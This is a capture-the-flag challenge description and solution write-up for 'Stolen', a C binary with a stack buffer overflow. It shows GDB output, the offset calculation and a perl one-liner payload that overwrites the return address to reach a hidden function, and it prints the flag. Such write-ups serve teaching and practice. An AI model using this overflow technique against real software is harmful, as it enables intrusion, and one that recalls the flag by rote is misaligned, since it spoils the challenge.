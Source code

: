 cd # Challenge Name

## Stolen

Here's a program that I made. Seems like it works the way I want it to.

`nc <hostname> <port>`

*Creator - Noans*

## Setup Guide
1. Run `build.sh` in the service folder.

## Distribution
- stolen
    - SHA1: `6c79423c4ee2c70c07fa2ad3eb102e1d1986a5cc`
    - Compiled C binary

## Solution
The program, written in C, is vulnerable to the buffer overflow exploit.

Using GDB, disassembling the main method will give the follow output will tell us that a method called `doStuff` is run. Upon disassembling the `doStuff` method, we will see that is simply a method that prints some text and uses `scanf()` to attain user input.

Knowing this, we can thus attempt to exploit `scanf()` since it is vulnerable to buffer overflow exploits.

Using `info functions` in GDB, we can list all the functions as shown below:
```
(gdb) info functions
Non-debugging symbols:
0x00005555555546d8  _init
0x0000555555554700  setbuf@plt
0x0000555555554710  printf@plt
0x0000555555554720  srand@plt
0x0000555555554730  time@plt
0x0000555555554740  setvbuf@plt
0x0000555555554750  __isoc99_scanf@plt
0x0000555555554760  rand@plt
0x0000555555554770  __cxa_finalize@plt
0x0000555555554780  _start
0x00005555555547b0  deregister_tm_clones
0x00005555555547f0  register_tm_clones
0x0000555555554840  __do_global_dtors_aux
0x0000555555554880  frame_dummy
0x000055555555488a  main
0x00005555555548ed  doStuff
0x0000555555554947  interestingFunction
0x000055555555495f  randomOutput
0x00005555555549d0  __libc_csu_init
0x0000555555554a40  __libc_csu_fini
0x0000555555554a44  _fini
```

The output shows us a function called `interestingFunction` that is neither used in the main method or in `doStuff`.

Recalling the previously disassembled `doStuff` method, in the disassembly, we will see a line `0x0000555555554906 <+25>:	lea    -0x30(%rbp),%rax`. This line tells us that the variable used in the scanf method was allocated a space of 48 bytes in the stack. This thus allows us to build our exploit string.

Taking into account that the rbp is 8 bytes, we would need to write a total of 56 bytes before we can override the return address to run the interestingFunction.

Disassembling the `interestingFunction` method, we will see the following output:
```
Dump of assembler code for function interestingFunction:
   0x0000555555554947 <+0>:	push   %rbp
   0x0000555555554948 <+1>:	mov    %rsp,%rbp
   0x000055555555494b <+4>:	lea    0x118(%rip),%rdi        # 0x555555554a6a
   0x0000555555554952 <+11>:	mov    $0x0,%eax
   0x0000555555554957 <+16>:	callq  0x555555554710 <printf@plt>
   0x000055555555495c <+21>:	nop
   0x000055555555495d <+22>:	pop    %rbp
   0x000055555555495e <+23>:	retq
End of assembler dump.
```

Thus, our exploit string can be generated with the follow command, account for the 56 bytes we need to write and the address of `interestingFunction` after the first line.

`perl -e 'print "a"x56 . "\x48\x49\x55\x55\x55\x55\x00\x00"'`

With the string generated from the above, we can run `nc <hostname> <port>` and enter the string as input to get the flag.

### Flag
`GCTF{0V3R_7H3_L1M17}`
